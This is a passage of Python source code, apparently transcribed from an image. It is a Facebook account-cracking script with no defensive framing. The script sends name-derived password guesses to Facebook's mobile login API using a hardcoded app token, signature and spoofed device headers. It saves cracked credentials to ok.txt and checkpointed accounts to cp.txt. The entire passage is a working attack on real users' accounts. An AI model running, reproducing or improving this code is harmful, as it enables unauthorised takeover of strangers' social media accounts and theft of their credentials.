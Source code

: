 																ok = open("ok.txt", "a")

																ok.write(uid+"|"+pass7+"\n")

																ok.close()

																oks.append(uid+pass7)

															else:

																if "www.facebook.com" in data.json()['error_msg']:

																	print(" \033[1;33m[loferjanan-CP] "+uid+" | "+pass7+"\033[0;97m")

																	cp = open("cp.txt", "a")

																	cp.write(uid+"|"+pass7+"\n")

																	cp.close()

																	cps.append(uid+pass7)

																else:

																	pass8 = name.lower().split(' ')[0] + name.lower().split(' ')[1]

																	api = 'https://b-api.facebook.com/method/auth.login'

																	params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass8, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}

																	headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}

																	data = requests.get(api, params=params, headers=headers_)

																	if "access_token" in data.text and "EAAA" in data.text:

																		print(" \033[1;32m[loferjanan💖-OK] "+uid+" | "+pass8+"\033[0;97m")

																		ok = open("ok.txt", "a")

																		ok.write(uid+"|"+pass8+"\n")

																		ok.close()

																		oks.append(uid+pass8)

																	else:

																		if "www.facebook.com" in data.json()['error_msg']:

																			print(" \033[1;33m[AZIM-CP] "+uid+" | "+pass8+"\033[0;97m")

																			cp = open("cp.txt", "a")

																			cp.write(uid+"|"+pass8+"\n")

																			cp.close()

																			cps.append(uid+pass8)
